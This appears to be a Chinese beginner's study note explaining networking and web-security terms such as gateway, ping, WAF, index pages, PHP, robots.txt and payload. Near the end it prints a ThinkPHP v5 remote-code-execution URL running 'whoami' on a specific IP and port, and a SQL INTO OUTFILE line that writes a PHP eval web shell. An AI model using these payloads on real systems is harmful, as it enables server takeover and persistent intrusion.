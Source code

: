 ﻿---
title: 随手
---
1.	网关
![](https://img-blog.csdnimg.cn/202012242138318.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

 
假设你的名字叫小不点(很小，这里你就是一个url地址，指向某个网页资源)，你住在一个大院子里，你的邻居有很多小伙伴，父母是你的网关。
当你想跟院子里的某个小伙伴玩，只要你在院子里大喊一声他的名字，他听到了就会回应你，并且跑出来跟你玩。
但是你家长不允许你走出大门，你想与外界发生的一切联系，都必须由父母（网关）用电话帮助你联系。假如你想找你的同学小明聊天，小明家住在很远的另外一个院子里，他家里也有父母（小明的网关）。但是你不知道小明家的电话号码，不过你的班主任老师有一份你们班全体同学的名单和电话号码对照表，你的老师就是你的DNS服务器。于是你在家里和父母有了下面的对话：
小不点：妈妈(或爸爸),我想找班主任查一下小明的电话号码行吗？家长：好，你等着。（接着你家长给你的班主任拨了一个电话，问清楚了小明的电话）问到了，他家的号码是211.99.99.99
小不点：太好了！妈(或爸),我想找小明，你再帮我联系一下小明吧。
家长：没问题。（接着家长向电话局发出了请求接通小明家电话的请求，最后一关当然是被转接到了小明家家长那里，然后他家长把电话给转到小明）.
就这样你和小明取得了联系。
如果搞清了什么是网关，默认网关也就好理解了。就好像一个房间可以有多扇门一样，一台主机可以有多个网关。默认网关的意思是一台主机如果找不到可用的网关，就把数据包发给默认指定的网关，由这个网关来处理数据包。默认网关。默认网关一般填写192.168.x.1

2.	ping
ping命令是常用的网络命令，它通常用来测试与目标主机的连通性。
我们经常会说“ping一下某机器，看是不是开着”、不能打开网页时会说“你先ping网关地址192.168.1.1试试”。
它通过发送ICMP ECHO_REQUEST数据包到网络主机(send ICMP ECHO_REQUEST to network hosts)，并显示响应情况，这样我们就可以根据它输出的信息来确定目标主机是否可访问(但这不是绝对的)。
有些服务器为了防止通过ping探测到，通过防火墙设置了禁止ping或者在内核参数中禁止ping，这样就不能通过ping确定该主机是否还处于开启状态。


3.	WAF
Web应用防护系统也称为：网站应用级入侵防御系统
Web应用防火墙是通过执行一系列针对HTTP/HTTPS的安全策略来专门为Web应用提供保护的一款产品
WAF主要防护的是来自对网站源站的动态数据攻击，可防护的攻击类型包括SQL注入、XSS攻击、CSRF攻击、恶意爬虫、扫描器、远程文件包含等攻击,相当于防火墙。



4.	Index
index在互联网上表示网站的默认主页。
一般为 index.html index.htm index.asp   index.php；
另外的默认主页也多用default.html;default.htm等
在输入域名进入空间的时候，服务器会自动搜索index主页并加载返回到浏览器中，如果站点的文件夹中没有index项，服务器再根据其它配置找寻本站点的主页。一般index页面存放在服务器文件夹的根目录中，服务器在默认情况下也是从根目录中搜索主页的所在。

5.	PHP：PHP即“超文本预处理器”，是一种通用开源脚本语言。PHP是在服务器端执行的脚本语言，与C语言类似，是常用的网站编程语言

6.	robots.txt
如果将网站视为酒店里的一个房间，robots.txt就是主人在房间门口悬挂的“请勿打扰”或“欢迎打扫”的提示牌。这个文件告诉来访的搜索引擎哪些房间可以进入和参观，哪些房间因为存放贵重物品，或可能涉及住户及访客的隐私而不对搜索引擎开放。但robots.txt不是命令，也不是防火墙，如同守门人无法阻止窃贼等恶意闯入者。约定俗成的规矩
7.	payload
病毒通常会做一些有害的或者恶性的动作。在病毒代码中实现这个功能的部分叫做“有效负载”（payload）。
例子：（thinkphp v5漏洞）:
http://159.138.137.79:63571/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
8.
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201224213855807.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

select "<?php eval(@$_POST['shell']);?>" into outfile '/tmp/22.php'
 